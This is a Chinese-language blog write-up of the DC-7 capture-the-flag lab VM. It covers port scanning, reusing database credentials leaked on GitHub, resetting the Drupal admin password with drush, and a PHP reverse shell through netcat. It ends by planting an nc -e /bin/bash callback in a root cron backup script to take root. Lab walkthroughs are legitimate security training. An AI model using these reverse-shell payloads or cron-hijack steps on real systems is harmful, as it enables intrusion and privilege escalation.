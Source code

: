 ```yaml
---
layout: post
title: DC-7
subtitle: DC-7
date: 2025-07-16 09:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

ip扫描发现 `192.168.163.131`

![image.png](https://img.ghostliner.top/8pzokb.png)

nmap扫描端口

```shell
nmap -T4 -A -p- 192.168.163.131
```
![image.png](https://img.ghostliner.top/7M8xan.png)

访问站点发现特殊字符串

![image.png](https://img.ghostliner.top/RdFxZA.png)

必应搜索 `DC7USER` 发现GitHub项目 `staffdb` 
[Dc7User/staffdb](https://github.com/Dc7User/staffdb)

在配置文件中发现mysql数据库连接配置

![image.png](https://img.ghostliner.top/EfjNcG.png)

```php
<?php
	$servername = "localhost";
	$username = "dc7user";
	$password = "MdR3xOgB7#dW";
	$dbname = "Staff";
	$conn = mysqli_connect($servername, $username, $password, $dbname);
?>
```

使用该用户名密码进行SSH连接，成功

查看目录，发现mbox邮件文件和网站备份文件

![image.png](https://img.ghostliner.top/LC5ABy.png)

查看mbox文件，发现定时执行脚本：`/opt/scripts/backups.sh`

![image.png](https://img.ghostliner.top/WVsmvH.png)

查看脚本权限，发现当前用户无法写入，但是 `www-data`可以

![image.png](https://img.ghostliner.top/OoOhy8.png)

查看脚本内容：

```shell
#!/bin/bash
rm /home/dc7user/backups/*
cd /var/www/html/
drush sql-dump --result-file=/home/dc7user/backups/website.sql
cd ..
tar -czf /home/dc7user/backups/website.tar.gz html/
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.sql
gpg --pinentry-mode loopback --passphrase PickYourOwnPassword --symmetric /home/dc7user/backups/website.tar.gz
chown dc7user:dc7user /home/dc7user/backups/*
rm /home/dc7user/backups/website.sql
rm /home/dc7user/backups/website.tar.gz
```

发现drush命令：[dupal 瑞士军刀：drush 命令大全](https://www.dwoke.com/node/436)

```shell
cd /var/www/html
# 更改admin用户密码
drush user-password admin --password="admin"
```

![image.png](https://img.ghostliner.top/pDzFGN.png)

网站登录成功，尝试反弹shell获取 `www-data`用户权限，以更改 `backups.sh`脚本

安装插件 https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz

![image.png](https://img.ghostliner.top/yk1FYQ.png)

开启插件
![image.png](https://img.ghostliner.top/E4bbaT.png)

勾选，点击页面最下方 `install`

```php
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 >/tmp/f');?>
```

![image.png](https://img.ghostliner.top/CxupAM.png)

反弹shell成功，编辑 `/opt/scripts/backups.sh` 文件

```shell
echo "nc -nv 192.168.163.132 5555 -e /bin/bash"
```

查看 `/var/mail/dc7user` 文件，发现自动化任务间隔15分钟

反弹shell成功

![image.png](https://img.ghostliner.top/2aDj41.png)

```shell
python -c "import pty;pty.spawn('/bin/bash')"
cat /root/theflag.txt
```

![image.png](https://img.ghostliner.top/tX2DGp.png)
